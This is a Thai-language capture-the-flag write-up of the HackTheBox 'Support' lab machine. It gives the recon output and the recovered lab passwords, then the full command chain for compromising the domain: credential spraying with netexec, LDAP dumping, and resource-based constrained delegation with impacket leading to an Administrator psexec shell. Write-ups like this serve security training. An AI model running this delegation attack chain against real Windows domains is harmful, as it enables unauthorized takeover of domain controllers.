






# Recon 

```bash
./scan.sh 10.10.11.174
[*] Running rustscan...
[*] Running nmap on ports: 53,88,135,139,389,445,464,593,636,9389,49667,49664,49676,49680,49704
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 09:22 +07
Nmap scan report for 10.10.11.174
Host is up (0.062s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-19 02:01:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49680/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-19T02:02:28
|_  start_date: N/A
|_clock-skew: -20m48s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.78 seconds

```


## Reverse UserInfo.exe using dnSpy 



FOUND 
```
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
XOR_KEY_1=armando 
XOR_KEY_2=223 (ฐาน 10)
```




## Verify Credential 

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```



จากตัวอย่างจะเห็นว่าสามารถใช้งาน รหัสที่ได้มาได้ และมี Username เป็น Support 

```bash
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```

เราจะ SETUP โดยตั้งค่าเริ่มต้นเป็นผู้ใช้ support@support.htb โดยมีเป้าหมายไปที่ Domain Admin จะพบความเชื่อมโยงดังต่อไปนี้ 



## Ldap Search 

เราจะทำการค้นหาข้อมูลใน LDAP 

```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```



เราจะเห็นว่ามี Info: มีข้อมูลที่เหมือนจะเป็นรหัสผ่าน 

==Cred FOUND:== Ironside47pleasure40Watchful

จากนั้นลองทดสอบ Dump ข้อมูลทั้งหมดจาก Ldap 

```bash
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap

grep Ironside *
```

## Shell as support 

ทดสอบโจมตีด้วย nxc เพื่อดูว่าวสามารถโจมตีไปที่โปรโตคอลอะไรได้บ้าง 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service support.htb -u 'support' -p 'Ironside47pleasure40Watchful'; done
```



จากตัวอย่างจะเห็นว่าสามารถโจมตีด้วย WinRm ได้ ซึ่งสามารถใช้ Evil-WInRM ได้ 

## Pass The Ticket 

```bash
impacket-addcomputer -method SAMR \
  -computer-name 'ATTACKERSYSTEM$' \
  -computer-pass 'Summer2018!' \
  -dc-host dc.support.htb \
  -dc-ip 10.10.11.174 \
  -domain-netbios support.htb \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-GetADUsers support.htb/support:Ironside47pleasure40Watchful -all | grep -i '$'

impacket-rbcd -delegate-from ATTACKERSYSTEM$ \
  -delegate-to DC$ \
  -action write \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-GetNPUsers support.htb/support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -request


## ข้อควรระวังการณีต้องการโจมตีแบบนี้จะต้องตรวจสอบเรื่องเวลาให้ตรงกันด้วย โดยใช้ ntpdate 
sudo ntpdate -u 10.10.11.174

impacket-getST -dc-ip 10.10.11.174 \
  -spn cifs/DC.support.htb \
  -impersonate Administrator \
  support.htb/ATTACKERSYSTEM$:Summer2018!


KRB5CCNAME=/home/administrator/Desktop/Administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass 

```


# PWNED